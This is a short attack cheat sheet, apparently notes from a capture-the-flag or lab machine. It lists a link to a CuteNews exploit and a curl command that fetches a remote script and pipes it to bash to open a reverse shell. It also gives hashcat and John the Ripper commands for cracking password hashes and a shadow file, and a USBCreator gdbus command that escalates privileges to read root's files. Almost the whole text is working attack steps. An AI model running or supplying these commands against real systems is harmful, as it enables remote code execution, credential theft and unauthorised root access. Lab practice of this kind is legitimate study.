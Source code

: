 # notes & commands


## python cuteNews exploit
https://www.exploit-db.com/exploits/48800


## curl reverse shell call
`` curl 10.10.14.143/shell.txt | bash``

## crack with hashcat
``.\hashcat64.exe -m 1400 -w 3 hashes.txt .\rockyou.txt --outfile final.txt``


## USBCreator copy (priv escalation to root)
``gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /root.txt true``


## john cracking shadow file
``unshadow passwd shadow > unshadowed``

`` .\run\john.exe .\unshadowd.txt --wordlist=rockyou.txt``
